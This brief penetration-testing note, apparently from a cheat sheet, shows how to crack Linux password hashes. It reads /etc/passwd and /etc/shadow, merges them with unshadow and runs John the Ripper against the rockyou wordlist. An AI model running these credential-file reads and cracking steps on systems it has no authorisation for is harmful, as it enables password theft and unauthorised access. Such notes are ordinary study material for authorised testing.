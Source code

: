 If you have access to the /etc/shadow and /etc/passwd files you can try to crack those hashes.

save the output from both into a text file
```bash
cat /etc/passwd
cat /etc/shadow
```

Then on your machine save the output from this command into A THIRD TEXT FILE
```bash
unshadow passwd.txt shadow.txt
```

Lastly, ( you may need to format it, depends)
```bash
john --wordlist=/usr/share/wordlists/rockyou.txt unshadowed.txt
```
